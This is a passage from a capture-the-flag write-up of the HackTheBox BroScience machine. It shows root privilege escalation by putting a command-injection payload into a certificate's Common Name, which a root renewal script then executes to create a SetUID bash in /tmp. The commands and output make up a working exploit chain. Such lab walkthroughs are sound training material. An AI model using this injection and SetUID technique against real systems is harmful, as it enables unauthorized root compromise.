     
    
    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)
    

Effectively, if I can put a command injection payload into a certificate, and
have it expire in less than one day, this script will execute it.

#### Execute

ChatGPT will quickly give me the `openssl` syntax to make a certificate. I’ll
modify it slightly to meet my needs:

    
    
    bill@broscience:~$ openssl req -x509 -nodes -newkey rsa:2048 -keyout /dev/null -out Certs/broscience.crt -days 1
    Generating a RSA private key
    ......................................................+++++
    ......................+++++
    writing new private key to '/dev/null'
    -----
    You are about to be asked to enter information that will be incorporated
    into your certificate request.
    What you are about to enter is what is called a Distinguished Name or a DN.
    There are quite a few fields but you can leave some blank
    For some fields there will be a default value,
    If you enter '.', the field will be left blank.
    -----
    Country Name (2 letter code) [AU]:
    State or Province Name (full name) [Some-State]:
    Locality Name (eg, city) []:
    Organization Name (eg, company) [Internet Widgits Pty Ltd]:
    Organizational Unit Name (eg, section) []:
    Common Name (e.g. server FQDN or YOUR name) []:$(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)                    
    Email Address []:
    

My payload will copy `bash` into `/tmp` and set it as SetUID to run as root (I
originally tried `/dev/shm`, but it is mounted `nosuid`.

After two minutes, there’s a SetUID binary in `/tmp`:

    
    
    bill@broscience:~$ ls -l /tmp/0xdf
    -rwsrwxrwx 1 root root 1234376 Mar 31 09:22 /tmp/0xdf
    

I’ll run that with `-p` to [not drop privs](/2022/05/31/setuid-
rabbithole.html) and get a shell as root:

    
    
    bill@broscience:~$ /tmp/0xdf -p
    0xdf-5.1#
    

And read the flag:

    
    
    0xdf-5.1# cat root.txt
    e810aba4************************
    

[](/2023/04/08/htb-broscience.html)


